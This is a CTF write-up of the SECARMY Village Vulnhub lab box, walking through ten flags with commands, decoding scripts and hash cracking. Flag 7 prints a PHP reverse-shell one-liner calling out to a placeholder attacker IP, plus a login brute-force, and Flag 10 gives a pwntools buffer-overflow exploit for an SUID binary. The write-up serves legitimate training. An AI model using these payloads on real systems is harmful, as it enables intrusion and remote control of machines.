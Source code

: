 ```yaml
---
date: 2020-11-05 19:47:51
layout: post
title: "SECARMY CTF OSCP box"
description: "Writeup of the SECARMY CTF OSCP giveaway box"
image: /assets/img/secarmy-village-0.png
optimized_image: /assets/img/secarmy-village-0.png
category: blog
tags:
  - ctf
  - reversing
  - pwn
  - privilege_escalation

author: trollzorftw
---
```


### Context
This is a writeup for SECARMY's CTF OSCP box. The contest has ended, but you can find the VM on Vulnhub: [Download Page](https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/)


### Flag 1
```bash
curl http://192.168.100.33
```
This gives us the following information: "You are required to find our hidden directory and make your way into the machine."

So naturally I throw a dirbust with common.txt wordlist at it:
```bash
ffuf -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.100.33/FUZZ

anon                    [Status: 301, Size: 315, Words: 20, Lines: 10]

curl http://192.168.100.33/anon/
```

Giving us the credentials for uno user:
```html
<font color="white">uno:luc10r4m0n</font>
```

### Flag 2
We read readme.txt and we get: 
"You surely can guess the username , the password will be: 4b3l4rd0fru705"

We try escalation to ``dos`` with password ``4b3l4rd0fru705`` and we get access


After reading readme.txt we run the following command:


```bash
cd ./files && grep -r a8211ac1853a1235d48829414626512a

file4444.txt:a8211ac1853a1235d48829414626512a
```

Opening file4444.txt tells us to: Look inside file3131.txt

file3131.txt gives us a base64 encoded text which decoded gives us a zip file to get flag and the next todo instructions:

```bash
echo "UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA" | base64 -d > flag2.zip

unzip flag2.zip && cat ./challenge2/flag2.txt
```


### Flag 3
We obtain a super secret token from the previous archive and use it on 1337 port:

```bash
echo "c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b" | nc 192.168.100.33 1337
```

Which gives us:
```
 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: 
 Here's your login credentials for the third user ``tres:r4f43l71n4j3r0``
```

### Flag 4
We get a binary which we need to reverse.

Using gdb-peda as our reverse tool, we run the binary and close it (Ctrl+C) when it prompts us to enter the key. 

Because I was unable to breakpoint anywhere in the main function, I tried to find ``keywords`` that might be in the binary.

The command ``find 'credentials'`` in gdb-peda shell worked and I got:

```bash
mapped : 0x7ffff7ffb09b ("credentials for the fourth user cuatro:p3dr00l1v4r3z")
```

### Flag 5
The todo.txt tells us to go to ``/justanothergallery`` on the webserver

After analyzing a little bit we get a bunch of qr images in: ``http://192.168.100.33/justanothergallery/qr/``


Downloading them all and decoding the qr codes with a simple python script gives us the next credentials and flag:
```python
from PIL import Image
from pyzbar.pyzbar import decode
import sys

imgs = []
for i in range(69):
	imgs.append('image-{}.png'.format(i))

decoded_text = ''

for img in imgs:
	data = str(decode(Image.open(img))[0]).split("data=b'")[1].split("',")[0]
	decoded_text += data + ' '

print(decoded_text)
```

Result:
```
Hello and congrats for solving this challenge, 
we hope that you enjoyed the challenges we presented so far. 
It is time for us to increase the difficulty level and make 
the upcoming challenges more challenging than previous ones. 
Before you move to the next challenge, here are the credentials 
for the 5th user: cinco:ruy70m35 
head over to this user and get your 5th flag! goodluck for the upcoming challenges!
```

### Flag 6
Reading readme.txt points us to /cincos-secrets/ here we'll get a shadow.bak file but is not readable. Changing the permissions will give us a hash:

```bash
chmod 444 shadow.bak && cat shadow.bak | grep seis

seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```

Cracking the hash gives us the password ``Hogwarts`` , so the credentials are: ``seis:Hogwarts``


### Flag 7
The readme.txt file gives us the following path: "head over to ``/shellcmsdashboard`` webpage and find the credentials!".

I decided to bruteforce login with BurpSuite sniper attack with first 100  ``rockyou.txt`` passwords.

The only password with a different length than the other ones was ``qwerty``.

Logged in and got the message: ``head over to /aabbzzee.php`` 

This page will give us an easy command injection box where we will get a reverse shell from.

My payload: 
```bash
php -r '$sock=fsockopen("ATTACKER-IP",LISTEN-PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Netcat reverse shell on LISTEN-PORT on the attacker box:

```bash
nc -nvlp LISTEN-PORT
```
Getting ``www-data`` shell which gives us the seventh user password: ``6u1l3rm0p3n473``


### Flag 8
After playing around with the message, I discovered that xoring "x" with every number in message.txt will give us the password. I created a small python script to extract it:

```python
message = [11, 29, 27, 25, 10, 21, 1, 0, 23, 10, 17, 12, 13, 8]
extracted = ''
for key in message:
  extracted += chr(ord('x')^key)

print(extracted)

Output:secarmyxoritup
```


### Flag 9
We are presented with a pcapng file. Opening it up with wireshark we will get a tcp stream that has a LOT of text in which ``QWERTY`` is repeated several times. Also, there were some DNS queries to ``dcode.fr``.

We obtain a password from the long text: 
```
mjwfr?2b6j3a5fx/c.
```

Using keyboard shift cipher on [dcode.fr](https://www.dcode.fr/keyboard-shift-cipher) with settings: 

	-QWERTY(US) 

	-Shift Right + Clockwise rotation

Result:
```
nueve:355u4z4rc0
```


### Flag 10
We have a suid set binary, so we will need to exploit it to get root. Reversing it and creating a small python exploit script will do the trick:

```python
from pwn import *

io = process("./orangutan")
io.recvline("pwnme if u can ;)")
junk = b"A" * 24
payload = junk + p64(0xcafebabe)
io.sendline(payload)
io.interactive()
```